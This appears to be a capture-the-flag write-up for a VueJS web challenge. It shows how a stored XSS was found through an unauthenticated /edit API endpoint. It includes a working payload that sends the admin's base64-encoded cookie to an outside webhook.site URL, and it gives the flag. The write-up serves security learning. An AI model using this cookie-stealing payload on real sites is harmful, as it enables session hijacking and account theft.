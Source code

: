 # A Good Vue
> Check out my cool artworks over there: goodvue.rumble.host If you want an Admin to check out your cool stuff: goodvue-bot.rumble.host

## About the Challenge
We have been given a website to test and this website using VueJS. Here is the preview of the website

![preview](images/preview.png)

If we press the `EXPLOIT` button in the corner of the website, it will return an alert

![alert](images/alert.png)

But there is an API endpoint that you can access [here](http://goodvue-api.rumble.host). If you access the homepage, the website will request to the API endpoint. Here is the HTTP request when the website send a request to `http://goodvue-api.rumble.host/get`

```
POST /get HTTP/1.1
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,id;q=0.8
...

{"id":"1","token":"OUR_COOKIE_VALUE"}
```

And it will return the review information such as likes, dislikes, and also the comments.

## How to Solve?
Because in the description there is an admin bot, so we know this is a XSS chall, and then because this website using VueJS i tried to check every request and I found this [url](http://goodvue.rumble.host/src/components/ImageComponent.vue)

![endpoint](images/endpoint.png)

As you can see there are 2 endpoints:
* http://goodvue-api.rumble.host/get
* http://goodvue-api.rumble.host/edit

When i tried to edit one of the review by sending this request

```
POST /edit HTTP/1.1
Host: goodvue-api.rumble.host
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
...

{"id":"1","token":"OUR_COOKIE_VALUE","text":"test"}
```

Luckily our input was reflected in the website

![input](images/input.png)

And then i tried to use normal XSS payload

```html
<img src=x onerror=alert(document.cookie)>
```

![testing](images/testing.png)

And we got an alert, so I tried to create another payload to steal the admin cookie. Here is the payload that I used to steal the cookie

```
<img src=x onerror=\"var i=new Image(); i.src='https://webhook.site/47c2cdc9-1233-4ac8-8e8b-55efe06aeb2c/?cookie='+btoa(document.cookie)\">"
```

After that, send the cookie to the admin and then wait until we got the admin's cookie

![webhook](images/webhook.png)

Decode the cookie using base64 and voilà

![flag](images/flag.png)

```
CSR{3v3n_vu3_c4n_h4v3_XSS}
```